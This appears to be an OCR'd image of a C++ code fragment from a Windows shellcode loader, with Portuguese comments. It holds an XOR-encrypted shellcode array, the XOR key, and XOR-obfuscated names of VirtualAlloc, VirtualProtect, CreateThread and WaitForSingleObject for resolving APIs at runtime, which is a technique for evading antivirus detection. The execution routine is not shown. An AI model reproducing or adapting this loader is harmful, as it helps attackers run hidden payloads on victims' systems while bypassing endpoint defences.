 ```cpp
unsigned char shellcode[] = {0x06, 0xa8, 0x57, 0xed, 0x00, 0x73, 0x37, 0x43, 0xbf, 0x32, 0x6f, 0xbb, 0x33, 0x20, 0xbc, 0x68, 0xb8, 0x4c, 0xbb, 0x2b, 0x27, 0x72, 0xe6, 0x1a, 0x10, 0x43, 0x3d, 0x7a, 0x51, 0xe9, 0x5f, 0x68, 0x32, 0x3d, 0x79, 0x2b, 0x50, 0x16, 0x11, 0x55, 0x1b, 0x46, 0x58, 0x0b, 0x72, 0x24, 0x77, 0x16, 0x43, 0x13, 0xbf, 0x21, 0x5f, 0x31, 0xa9, 0xbf, 0x65, 0x10, 0x32, 0x96, 0xbb, 0x39, 0x17, 0x42, 0xed, 0xfb, 0x2e, 0xcc, 0xf8, 0x66, 0x2b, 0x69, 0xe9, 0x7d, 0xf0, 0x42, 0xfe, 0xca, 0xd2, 0xf9, 0x1e, 0xcc, 0xf8, 0x08, 0xb0, 0x69, 0xec, 0x2a, 0xb3, 0xb2, 0x30, 0xb0, 0x52, 0xd5, 0x17, 0x33, 0x33, 0xd6, 0xdf, 0xeb, 0xf3, 0x4e, 0xbb, 0x4f, 0xb5, 0x42, 0xeb, 0xfb, 0x9e, 0x01, 0xba, 0x65, 0x5f, 0x09, 0x41, 0x35, 0x71, 0x1b, 0x7b, 0x2a, 0x56, 0x00, 0x0b, 0x7c, 0x1c, 0x55, 0x53, 0x3c, 0x60, 0xb3, 0xe5, 0x1b, 0x04, 0x71, 0x7a, 0x3c, 0x05, 0xb1, 0x1f, 0x10, 0x35, 0x26, 0x7d, 0x24, 0x47, 0x00, 0x05, 0x1c, 0x60, 0x8d, 0xb3, 0xb9, 0xb5, 0x5c, 0x42, 0x18, 0x7d, 0x02, 0x56, 0xf2, 0x5b, 0x67, 0x36, 0x3c, 0x2d, 0x58, 0x07, 0x55, 0x45, 0x1c, 0x5b, 0x1b, 0x63, 0x32, 0x64, 0x17, 0x62, 0x8d, 0xb6, 0x01, 0xa1, 0x52, 0x8d, 0xf8, 0x32, 0x65, 0xe4, 0x27, 0x65, 0xbc, 0xe4, 0x1a, 0x17, 0x71, 0x3d, 0x7a, 0x51, 0xe9, 0x5f, 0x68, 0x32, 0x3d, 0x79, 0x2b, 0x5b, 0x11, 0x08, 0x55, 0x1b, 0x63, 0x64, 0x29, 0x60, 0x18, 0x66, 0x8c, 0xe2, 0x72, 0xe6, 0x20, 0x31, 0x62, 0xc1, 0x32, 0x65, 0xe8, 0xd9, 0x49, 0x62, 0x31, 0x65, 0xbc, 0xe4, 0x22, 0x3c, 0x58, 0x16, 0x57, 0x43, 0x26, 0x55, 0xcf, 0x5c, 0x57, 0x34, 0x0d, 0x5c, 0x11, 0x0c, 0x5e, 0x1d, 0x60, 0x61, 0x97, 0xe6, 0xf6, 0xf1, 0xda, 0x7f, 0xc2, 0xb5, 0x98, 0x62, 0x31, 0x72, 0x35, 0x65, 0x0e, 0x5b, 0x6c, 0xcb, 0x42, 0xe5, 0xf1, 0x36, 0x14, 0x31, 0xb9, 0x91, 0x5e, 0x27, 0x3a, 0x64, 0xb3, 0xe0, 0x1b, 0x44, 0x02, 0x7a, 0x3c, 0x05, 0xb1, 0x1f, 0x10, 0x35, 0x26, 0x7d, 0x24, 0x5f, 0x10, 0x52, 0x30, 0x5c, 0x06, 0x06, 0x60, 0x01, 0x5c, 0x74, 0x1a, 0x56, 0x2d, 0x64, 0x20, 0xc8, 0x96, 0xbd, 0xac, 0x0b, 0x53, 0x1e, 0x50, 0x79, 0x0e, 0xb0, 0x20, 0x14, 0x70, 0x79, 0xca, 0xd7, 0x25, 0x34, 0x67, 0x42, 0xcb, 0x5d, 0x7a, 0x6a, 0x1b, 0xd2, 0x8e, 0x51, 0x84, 0x70, 0x56, 0x5f, 0x31, 0x72, 0xf2, 0x73, 0x4c, 0x23, 0x08, 0xbd, 0x3f, 0x13, 0x53, 0x60, 0x23, 0x34, 0x67, 0x24, 0x73, 0x60, 0x27, 0x64, 0x1b, 0x63, 0x24, 0xc8, 0x93, 0x5c, 0x17, 0x10, 0x43, 0x3d, 0x52, 0xb4, 0x04, 0x17, 0x4f, 0x7e, 0x1b, 0x67, 0x31, 0x5b, 0x11, 0x0b, 0x75, 0x0b, 0x5d, 0x43, 0x3c, 0x65, 0xb3, 0xe5, 0x42, 0xfe, 0x12, 0xcb, 0xa2};

unsigned int shellcode_size = sizeof(shellcode);

char xor_key[] = "7h3L0s7C4rc0s4";

//ponteiro para VirtualAlloc
LPVOID (WINAPI * pVA)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD  flProtect);
//ponteiro para VirtualProtect
BOOL (WINAPI * pVP)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flNewProtect, PDWORD lpflOldProtect);
//ponteiro para CreateThread
HANDLE (WINAPI * pCT)(PSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, __drv_aliasesMem LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
//ponteiro para WaitForSingleObject
DWORD (WINAPI * pWFSO)(HANDLE hHandle, DWORD dwMilliseconds);
//ponteiro para RtlMoveMemory
VOID (WINAPI * pRM)(VOID UNALIGNED *Destination, const VOID UNALIGNED *Source, SIZE_T Length);

// XOR encrypted da VirtualAlloc
unsigned char cVA[] = {0x61, 0x01, 0x41, 0x38, 0x45, 0x12, 0x5b, 0x02, 0x58, 0x1e, 0x0c, 0x53, 0x73};
unsigned int cVALen = sizeof(cVA);

// XOR encrypted VirtualProtect
unsigned char cVP[] = {0x61, 0x01, 0x41, 0x38, 0x45, 0x12, 0x5b, 0x13, 0x46, 0x1d, 0x17, 0x55, 0x10, 0x40, 0x37};
unsigned int cVPLen = sizeof(cVP);

//XOR encrypted da CreateThread
unsigned char cCT[] = {0x74, 0x1a, 0x56, 0x2d, 0x44, 0x16, 0x63, 0x2b, 0x46, 0x17, 0x02, 0x54, 0x73};
unsigned int cCTLen = sizeof(cCT);

//XOR encrypted da WaitForSingleObject
unsigned char cWFSO[] = {0x60, 0x09, 0x5a, 0x38, 0x76, 0x1c, 0x45, 0x10, 0x5d, 0x1c, 0x04, 0x5c, 0x16, 0x7b, 0x55, 0x02, 0x56, 0x2f, 0x44, 0x73};
unsigned int cWFSOLen = sizeof(cWFSO);

```